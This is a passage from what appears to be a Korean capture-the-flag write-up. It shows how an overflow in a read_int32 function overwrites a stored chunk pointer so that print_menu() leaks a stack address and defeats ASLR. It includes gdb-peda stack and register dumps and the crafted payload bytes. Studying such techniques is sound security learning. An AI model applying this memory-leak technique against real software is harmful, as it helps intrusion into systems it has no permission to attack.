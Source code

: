 `rbp-0x30`부터 `0x20`바이트 만큼 문자열을 입력받는다. 청크의 주소는 `rbp-0x20`에 저장되어 있으므로 이 부분의 메모리를 덮어쓸 수 있다. 즉, `r` 권한이 있는 임의의 주소로 이 부분을 덮으면 `print_menu()`를 호출했을 때 그 주소에 저장된 값이 출력될 것이다. 이를 이용하여 memory leak이 가능하다. `cur`의 주소인 `0x602268`로 덮어쓰면 `cur`에 저장된 스택 주소가 출력되기 때문에 ASLR을 우회할 수 있을 것이다.

```bash
gdb-peda$ x/8gx $rsp
0x7fffffffcf10:	0x00007fffffffdf80	0x0000000000400a4e
0x7fffffffcf20:	0x0000000000603260	0x0000000000000000
0x7fffffffcf30:	0x0000000000000000	0xeb581168340ea600
0x7fffffffcf40:	0x00007fffffffdf80	0x0000000000400b3a
```

`read_int32+40`에서 `read()`를 호출하기 직전의 스택 상태이다. 레지스터의 상태는 다음과 같다.

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffcf10 --> 0x7fffffffdf80 --> 0x7fffffffdfa0 --> 0x400c10 (<__libc_csu_init>:	push   r15)
RBX: 0x7fffffffcf20 --> 0x603260 --> 0xa41414141 ('AAAA\n')
RCX: 0x0 
RDX: 0x20 (' ')
RSI: 0x7fffffffcf10 --> 0x7fffffffdf80 --> 0x7fffffffdfa0 --> 0x400c10 (<__libc_csu_init>:	push   r15)
RDI: 0x0 
RBP: 0x7fffffffcf40 --> 0x7fffffffdf80 --> 0x7fffffffdfa0 --> 0x400c10 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffcf10 --> 0x7fffffffdf80 --> 0x7fffffffdfa0 --> 0x400c10 (<__libc_csu_init>:	push   r15)
RIP: 0x400997 (<read_int32+40>:	call   0x400770 <read@plt>)
...
```

입력값으로 `"A"*0x10+"\x28\x22\x60"`을 준 상황을 만들어 보자. 아무 입력이나 줘서 `read()`를 넘기고 `set` 명령어를 이용하자.

```bash
gdb-peda$ set {int}0x7fffffffcf10=0x41414141
gdb-peda$ set {int}0x7fffffffcf14=0x41414141
gdb-peda$ set {int}0x7fffffffcf18=0x41414141
gdb-peda$ set {int}0x7fffffffcf1c=0x41414141
gdb-peda$ set {int}0x7fffffffcf20=0x602268
gdb-peda$ x/8gx $rsp
0x7fffffffcf10:	0x4141414141414141	0x4141414141414141
0x7fffffffcf20:	0x0000000000602268	0x0000000000000000
0x7fffffffcf30:	0x0000000000000000	0xeb581168340ea600
0x7fffffffcf40:	0x00007fffffffdf80	0x0000000000400b3a
```

이 상태에서 레지스터의 상태는 다음과 같다.

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffcf10 ('A' <repeats 16 times>, "h\"`")
RBX: 0x7fffffffcf20 --> 0x602268 (0x00007fffffffcf20)
RCX: 0x7ffff7ed9f81 (<__GI___libc_read+17>:	cmp    rax,0xfffffffffffff000)
RDX: 0x20 (' ')
RSI: 0x7fffffffcf10 ('A' <repeats 16 times>, "h\"`")
RDI: 0x0 
RBP: 0x7fffffffcf40 --> 0x7fffffffdf80 --> 0x7fffffffdfa0 --> 0x400c10 (<__libc_csu_init>:	push   r15)
RSP: 0x7fffffffcf10 ('A' <repeats 16 times>, "h\"`")
RIP: 0x4009a0 (<read_int32+49>:	mov    rdi,rax)
R8 : 0x5 
R9 : 0x0 
R10: 0x7ffff7f66ae0 --> 0x100000000 
R11: 0x246 
R12: 0x4007d0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe080 --> 0x1 
R14: 0x0 
```